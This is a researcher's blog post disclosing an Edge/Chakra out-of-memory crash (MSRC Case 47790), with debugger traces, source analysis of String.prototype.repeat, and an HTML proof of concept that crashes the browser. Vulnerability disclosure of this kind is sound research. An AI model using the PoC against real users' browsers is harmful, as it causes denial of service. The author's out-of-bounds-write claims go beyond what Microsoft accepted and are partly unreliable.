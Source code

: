 ```yaml
---
layout: post
title:  "Microsoft Edge - Out-of-Memory Error Issue (MSRC Case 47790)"
date:   2019-01-02 10:05:03 +0800
tags:
    - OOM
---
```


Overview
--------
An out-of-memory error issue was found in Microsoft Edge resulting an unhandled exception in the browser. The issue was found using Domato fuzzer (modified). After minimizing the POC, it turns out that the issue can be trigger with a few lines of JavaScript. The issue has been reported to Microsoft (MSRC Case 47790) and they said:

**"Our engineer review the report and this isn't a security issue. Anything that lands on JavascriptError::ThrowOutOfMemoryError is not continuable and is not considered as a security issue, Edge just dies because it cant allocate memory. We can of course revisit if you can show a different behavior without throwing that OOM error."**

Thus, the issue is not really an security issue unless I can prove or someone can proven that the issue can be trigger without throwing an OOM. Further investigation, found the crash happened is by an exception that is explicitly raised by the application and in normal circumstances, there is no way to trick the browser to continue any code execution beyond the OOM (without debugger).

Initial Crash Information
-------------------------
Crash triage:
```
(1a00.224): Break instruction exception - code 80000003 (first chance)
KERNELBASE!wil::details::DebugBreak+0x2:
00007ff8`b61f6af2 cc int 3
```
It is found that the crash indeed not land to the access violation. If we continue execution, we can observe memory corrupted which leads to out-of-memory issue.
```
1:062> g
WARNING: Continuing a non-continuable exception
(1a00.224): Break instruction exception - code 80000003 (first chance)
chakra!Js::JavascriptError::ThrowOutOfMemoryError+0x13:
00007ff8`987318bf cc int 3
```
Continue executing in WinDBG, we can see a memory corruption happened here:
```
1:062> g
(1a00.224): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
msvcrt!memcpy+0x20:
00007ff8`b7812ee0 488b040a mov rax,qword ptr [rdx+rcx] ds:0053002b`002b003b=????????????????
```

Root Cause Analysis
-------------------
Observing the stack trace, we can see the stack executing in a sequence of:
```
1:064> k
# Child-SP RetAddr Call Site
00 000000dc`643fa858 00007ffb`69aabfb2 KERNELBASE!wil::details::DebugBreak+0x2
01 000000dc`643fa860 00007ffb`6999e033 chakra!ReportFatalException+0x26
02 000000dc`643fa8a0 00007ffb`69c13fd6 chakra!OutOfMemory_fatal_error+0x23
03 000000dc`643fa8e0 00007ffb`69991c70 chakra!Js::Exception::RaiseIfScriptActive+0x3a
04 000000dc`643fa910 00007ffb`698bc4a4 chakra!Js::Throw::OutOfMemory+0x10**
05 000000dc`643fa950 00007ffb`698bcf7f chakra!Memory::Recycler::LargeAlloc<0>+0x30
06 000000dc`643fa9a0 00007ffb`69bc4e93 chakra!Memory::Recycler::AllocLeaf+0x17f
07 000000dc`643faa10 00007ffb`69a09311 chakra!Js::JavascriptString::RepeatCore+0xb3
08 000000dc`643faac0 00007ffb`6998efb6 chakra!Js::JavascriptString::EntryRepeat+0x26f771
09 000000dc`643fab10 00007ffb`6986402b chakra!amd64_CallFunction+0x86
```
Examining the stack trace found the root-cause were coming from **JavascriptString::RepeatCore**. The issue found to fail sanitize the repeated string size (buffer). Since the Chakra core source is public, we can examine based on source code and our stack trace. 

Analysis of **JavascriptString::EntryRepeat** (only included the comment)
```
https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Library/JavascriptString.cpp#L2496

// get the input and perform processing
if (args.Info.Count > 1)
{
	if (!JavascriptOperators::IsUndefinedObject(args[1], scriptContext))
	{
		double countDbl = JavascriptConversion::ToInteger(args[1], scriptContext);
		if (JavascriptNumber::IsPosInf(countDbl) || countDbl < 0.0)
		{
      // it should throw this message however, our input manage to bypass this part
			JavascriptError::ThrowRangeError(scriptContext, JSERR_ArgumentOutOfRange, u("String.prototype.repeat")); 
		}
		count = NumberUtilities::LuFromDblNearest(countDbl);
	}
}

// get the length of the input
if (count == 0 || pThis->GetLength() == 0)
{
	return scriptContext->GetLibrary()->GetEmptyString();
}
else if (count == 1)
{
	return pThis; // this results from our length of buffer and store at pThis
}

// once all passes, it will return all the processing, length and input buffer to RepeatCore
return RepeatCore(pThis, count, scriptContext);
```

Analysis of **JavascriptString::RepeatCore**
```
https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Library/JavascriptString.cpp#L2538

... cut here ... 
const char16* currentRawString = currentString->GetString();
charcount_t currentLength = currentString->GetLength();
charcount_t finalBufferCount = UInt32Math::Add(UInt32Math::Mul(count, currentLength), 1);
char16* buffer = RecyclerNewArrayLeaf(scriptContext->GetRecycler(), char16, finalBufferCount);
if (currentLength == 1) // pass the current length, means pass our arguments here
{
	wmemset(buffer, currentRawString[0], finalBufferCount - 1);
	// passing our arguments here throwing the application to out-out-bound write, resulting overwriting into registers r12, r13 and r15.
	buffer[finalBufferCount - 1] = '\0'; 
}
``` 

To confirm our analysis, we can see value r14 is holding current length. We can observe the value in registers.
```
1:064> u chakra!Js::JavascriptString::RepeatCore+0xb3
chakra!Js::JavascriptString::RepeatCore+0xb3:
00007ffb`69bc4e93 488bd8 mov rbx,rax
00007ffb`69bc4e96 4183fe01 cmp r14d,1     // currentLength
```
Observing our registers and we got the result:
```
rax=000000dc643fa830 rbx=0000000000000000 rcx=000000dc643fa858
rdx=0052ff4e9beb57e3 rsi=0000000000000040 rdi=0053002b002b0033
rip=00007ffb88df2ee0 rsp=000000dc643fa830 rbp=000000dc643faa80
r8=0000000000000040 r9=0000000000000008 r10=0000000000000000
r11=000000dc643fa858 r12=0000000041414141 r13=0000000041414142
r14=0000000000000001 r15=0000000041414141
```

Continuing execution we can observe final land of the out-of-memory path:
```
1:064> k
# Child-SP RetAddr Call Site
00 000000dc`643fa830 00007ffb`69b40d7f msvcrt!memcpy+0x20
01 000000dc`643fa838 00000000`00000000 chakra!Js::JavascriptError::ThrowParserError+0x2f
1:064> r
rax=000000dc643fa830 rbx=0000000000000000 rcx=000000dc643fa858
rdx=0052ff4e9beb57e3 rsi=0000000000000040 rdi=0053002b002b0033
rip=00007ffb88df2ee0 rsp=000000dc643fa830 rbp=000000dc643faa80
r8=0000000000000040 r9=0000000000000008 r10=0000000000000000
r11=000000dc643fa858 r12=0000000041414141 r13=0000000041414142
r14=0000000000000001 r15=0000000041414141
iopl=0 nv up ei pl nz ac pe nc
cs=0033 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010212
msvcrt!memcpy+0x20:
00007ffb`88df2ee0 488b040a mov rax,qword ptr [rdx+rcx]ds:0053002b`002b003b=????????????????
```

**Proof-of-Concept**
```
<html>
<script>
function freememory() {
	try { CollectGarbage(); } catch(err) { }
	try { window.gc(); } catch(err) { }
}

function minimize_poc(){
	try{
		var var00015 = 'a'.repeat(0x41414141);
		eval(var00015);
	} catch(e){}
	
	freememory();
}
</script>
<body onload=minimize_poc()>
</body>
</html>
```

Sign off for now. Feel free to dispute, etc. Happy reading!
